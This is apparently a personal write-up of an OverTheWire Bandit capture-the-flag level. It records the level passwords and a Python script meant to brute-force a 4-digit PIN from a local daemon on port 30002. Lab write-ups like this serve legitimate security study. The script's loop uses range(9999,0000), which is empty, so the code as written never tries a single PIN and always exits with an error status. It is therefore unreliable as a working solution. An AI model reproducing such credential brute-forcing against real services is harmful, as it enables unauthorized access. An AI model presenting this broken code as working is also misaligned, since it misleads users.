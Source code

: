 ![[Pasted image 20240116143812.png]]

##### bandit24
`pass : VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`

desc : A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

```python
import sys
import socket

bandit24_pass = "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar"
try:

    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client_socket.connect(("localhost", 30002))

    starting_message = client_socket.recv(2048)


    for pincode in reversed(range(9999,0000)):
        message_to_be_sent =bandit24_pass+" "+(str(pincode).zfill(4))+"\n"

        client_socket.sendall(message_to_be_sent.encode())

        received_message = client_socket.recv(1024).decode()

        if "Wrong" in received_message:
            print("Trying...  ",pincode)
        else:
            print(received_message)
            break
finally:
    sys.exit(1)
```

![[Pasted image 20240116201329.png]]

##### bandit25
`pass : p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`